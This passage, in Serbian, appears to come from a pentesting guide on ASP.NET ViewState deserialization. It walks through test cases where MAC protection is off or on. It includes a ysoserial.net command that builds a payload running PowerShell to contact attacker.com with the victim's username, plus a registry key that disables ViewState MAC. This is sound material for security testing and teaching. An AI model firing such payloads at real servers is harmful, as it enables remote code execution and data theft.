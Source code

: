 ### Test slučaj: 1 – EnableViewStateMac=false i viewStateEncryptionMode=false

Takođe je moguće potpuno onemogućiti ViewStateMAC postavljanjem registarskog ključa `AspNetEnforceViewStateMac` na nulu u:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}
```

**Identifikovanje ViewState atributa**

Možete pokušati da identifikujete da li je ViewState zaštićen MAC-om snimanjem zahteva koji sadrži ovaj parametar pomoću BurpSuite-a. Ako Mac nije korišćen za zaštitu parametra, možete ga iskoristiti koristeći [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)

```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"
```

### Test slučaj 1.5 – Kao Test slučaj 1, ali ViewState kolačić nije poslat od strane servera

Programeri mogu **ukloniti ViewState** da postane deo HTTP zahteva (korisnik neće primiti ovaj kolačić).\
Može se pretpostaviti da ako **ViewState** nije prisutan, njihova implementacija je **sigurna** od potencijalnih ranjivosti koje proizilaze iz ViewState deserijalizacije.\
Međutim, to nije slučaj. Ako **dodamo ViewState parametar** u telo zahteva i pošaljemo naš serializovani payload kreiran korišćenjem ysoserial, i dalje ćemo moći postići **izvršenje koda** kao što je prikazano u **Slučaju 1**.

### Test slučaj: 2 – .Net < 4.5 i EnableViewStateMac=true & ViewStateEncryptionMode=false

Da bismo **omogućili ViewState MAC** za **specifičnu stranicu**, potrebno je da napravimo sledeće promene na određenoj aspx datoteci:

```bash
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="hello.aspx.cs" Inherits="hello" enableViewStateMac="True"%>
```

Možemo to uraditi i za **ukupnu** aplikaciju postavljanjem u **web.config** fajlu kako je prikazano ispod:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off" />
<machineKey validation="SHA1" validationKey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" />
<pages enableViewStateMac="true" />
</system.web>
</configuration>
```
